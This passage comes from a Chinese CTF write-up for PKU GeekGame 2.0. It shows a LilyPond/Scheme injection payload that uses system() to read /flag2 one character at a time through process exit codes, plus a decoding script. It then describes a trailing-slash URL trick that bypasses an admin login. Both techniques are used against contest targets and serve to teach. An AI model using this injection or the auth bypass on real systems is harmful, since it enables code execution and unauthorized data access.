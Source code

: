 那么 flag 文件就存放在 `/flag1` 和 `/flag2` 里。我们怎么把它读出来呢？

我去网上搜了一圈 scheme 里怎么读文件，但是由于我不会 LISP，我没整出来。

那么就用返回码+Python 把字符读出来吧：

```wiki
<score>\new Staff <<{c^#(number->string (system "python -c 'exit(ord(open(\"/flag2\").read()[i]))'")))}>></score>
```

读取 `/flag2` 的第 i(换成数字) 个字符，将其 ASCII 码作为进程的退出码。

![image-20221123152437286](assets/image-20221123152437286.png)

这次我看出来显示的值的规律了。把数值除以 256 即可得到进程的退出码。最后 5 个结果退出码是 1， 表明下标越界报错了，我们把它们忽略掉即可。

```python
digits = [26112, 27648, 24832, 26368, 31488, 27648, 26880,
          12544, 30976, 28672, 12288, 28160, 25600, 24320,
          25344, 24832, 28160, 24320, 12544, 25856, 24832,
          25600, 24320, 29696, 28416, 24320, 29184, 25344, 25856, 32000]
byts = bytes([int(digit/256) for digit in digits])
print(byts.decode())
```

运行一下，得到 `flag{li1yp0nd_can_1ead_to_rce}`

## 企业级理解

我先观摩了一下被打印出来的机密 URL 代码，没发现什么 bug。

后来想了想代码可能没有处理 URL 末尾带着斜杠的情形，果然成功了。

访问 https://prob08-xxxxx.geekgame.pku.edu.cn/admin/ 即可 "Passwordless" login.

然后试试 `/admin/query/` 这个接口：

```shell
$ http -f 'http://prob08-xxxxxx.geekgame.pku.edu.cn/admin/query/'
...
<div class="container">
  <form class="form-signin" method="post" action="/admin/query">
    <h2 class="form-signin-heading">PKU GeekGame 2.0</h2>
    <p>
      <select name="type" class="custom-select d-block w-100" placeholder="请选择" required autofocus>
        <option value="none" selected disabled hidden>请选择选项</option>
        <option value="PKU" name="type" selected="selected">PKU</option>
        <option value="PKUGame" name="type">PKUGame</option>
        <option value="PKU_GeekGame" name="type">PKU_GeekGame</option></option>
      </select>
```